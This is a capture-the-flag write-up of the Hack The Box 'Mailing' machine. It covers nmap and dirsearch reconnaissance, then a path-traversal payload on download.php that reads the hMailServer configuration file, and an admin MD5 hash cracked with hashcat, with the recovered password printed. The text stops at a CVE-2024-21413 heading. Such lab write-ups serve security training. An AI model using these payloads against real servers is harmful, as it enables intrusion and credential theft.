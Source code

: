 # Mailing Write-up

<img src="https://labs.hackthebox.com/storage/avatars/cedb2f991409f9f39b55b04513f6b102.png" width="200" height="200">

## Recon 

### Port enumeration with Nmap 

`nmap -sC -sV 10.10.11.14`

    PORT    STATE SERVICE       VERSION
    25/tcp  open  smtp          hMailServer smtpd
    | smtp-commands: mailing.htb, SIZE 20480000, AUTH LOGIN PLAIN, HELP
    |_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
    80/tcp  open  http          Microsoft IIS httpd 10.0
    |_http-server-header: Microsoft-IIS/10.0
    |_http-title: Did not follow redirect to http://mailing.htb
    110/tcp open  pop3          hMailServer pop3d
    |_pop3-capabilities: UIDL TOP USER
    135/tcp open  msrpc         Microsoft Windows RPC
    139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
    143/tcp open  imap          hMailServer imapd
    |_imap-capabilities: QUOTA SORT RIGHTS=texkA0001 IDLE IMAP4rev1 IMAP4 NAMESPACE completed CHILDREN CAPABILITY OK ACL
    445/tcp open  microsoft-ds?
    465/tcp open  ssl/smtp      hMailServer smtpd
    |_ssl-date: TLS randomness does not represent time
    | smtp-commands: mailing.htb, SIZE 20480000, AUTH LOGIN PLAIN, HELP
    |_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
    | ssl-cert: Subject: commonName=mailing.htb/organizationName=Mailing Ltd/stateOrProvinceName=EU\Spain/countryName=EU
    | Not valid before: 2024-02-27T18:24:10
    |_Not valid after:  2029-10-06T18:24:10
    587/tcp open  smtp          hMailServer smtpd
    |_ssl-date: TLS randomness does not represent time
    | ssl-cert: Subject: commonName=mailing.htb/organizationName=Mailing Ltd/stateOrProvinceName=EU\Spain/countryName=EU
    | Not valid before: 2024-02-27T18:24:10
    |_Not valid after:  2029-10-06T18:24:10
    | smtp-commands: mailing.htb, SIZE 20480000, STARTTLS, AUTH LOGIN PLAIN, HELP
    |_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
    993/tcp open  ssl/imap      hMailServer imapd
    |_ssl-date: TLS randomness does not represent time
    |_imap-capabilities: QUOTA SORT RIGHTS=texkA0001 IDLE IMAP4rev1 IMAP4 NAMESPACE completed CHILDREN CAPABILITY OK ACL
    | ssl-cert: Subject: commonName=mailing.htb/organizationName=Mailing Ltd/stateOrProvinceName=EU\Spain/countryName=EU
    | Not valid before: 2024-02-27T18:24:10
    |_Not valid after:  2029-10-06T18:24:10
    Service Info: Host: mailing.htb; OS: Windows; CPE: cpe:/o:microsoft:windows
    
    Host script results:
    | smb2-time: 
    |   date: 2024-05-11T10:03:50
    |_  start_date: N/A
    | smb2-security-mode: 
    |   3:1:1: 
    |_    Message signing enabled but not required
    |_clock-skew: 1s

Add domain to /etc/hosts

    echo "10.10.11.14 mailing.htb" | sudo tee -a /etc/hosts

mailing.htb

![image](https://github.com/zer00d4y/writeups/assets/128820441/ada684d1-c652-4374-9417-6c11a8d7f80e)

### Directory Enumeration with Dirseacrh

`python3 dirsearch.py -e php,html,js -u http://mailing.htb/ --exclude-status 404,403,401,307`

      _|. _ _  _  _  _ _|_    v0.4.3
     (_||| _) (/_(_|| (_| )
    
    301 -  160B  - /assets  ->  http://mailing.htb/assets/           
    200 -  541B  - /assets/                                          
    200 -   31B  - /download.php                                     

Check `mailing.htb/download.php` 

![image](https://github.com/zer00d4y/writeups/assets/128820441/2123b098-0a7e-46d5-8851-f04a12e6b219)

Now, we can see that the site is vulnerable to LFI, when we add `?file=` parametr in address

![image](https://github.com/zer00d4y/writeups/assets/128820441/a1806eb2-28be-4a5e-8cc4-6a436e51c72d)

Using this payload:

mailing.htb/download.php?file=`../../../Program+Files+(x86)/hmailServer/Bin/hMailServer.INI`

Read the server configuration and find the hash of the admin password 

AdministratorPassword=`841bb5acfa6779ae432fd7a4e6600ba7`

![image](https://github.com/zer00d4y/writeups/assets/128820441/ee523b8b-0287-4a1a-a18c-117b4f3e8886)

## Brute force the hash with hashcat 

`hashcat -a 0 -m 0 hash rockyou.txt`

    841bb5acfa6779ae432fd7a4e6600ba7:homenetworkingadministrator
                                                              
    Session..........: hashcat
    Status...........: Cracked
    Hash.Mode........: 0 (MD5)
    Hash.Target......: 841bb5acfa6779ae432fd7a4e6600ba7
    Time.Started.....: Sat May 11 06:42:56 2024 (4 secs)
    Time.Estimated...: Sat May 11 06:43:00 2024 (0 secs)
    Kernel.Feature...: Pure Kernel
    Guess.Base.......: File (/home/kali/wordlist/rockyou.txt)
    Guess.Queue......: 1/1 (100.00%)
    Speed.#1.........:  1631.0 kH/s (0.14ms) @ Accel:256 Loops:1 Thr:1 Vec:8
    Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
    Progress.........: 7563264/14344384 (52.73%)
    Rejected.........: 0/7563264 (0.00%)
    Restore.Point....: 7561728/14344384 (52.72%)
    Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
    Candidate.Engine.: Device Generator
    Candidates.#1....: homershot -> home379/57
    Hardware.Mon.#1..: Util: 35%

## CVE-2024-21413

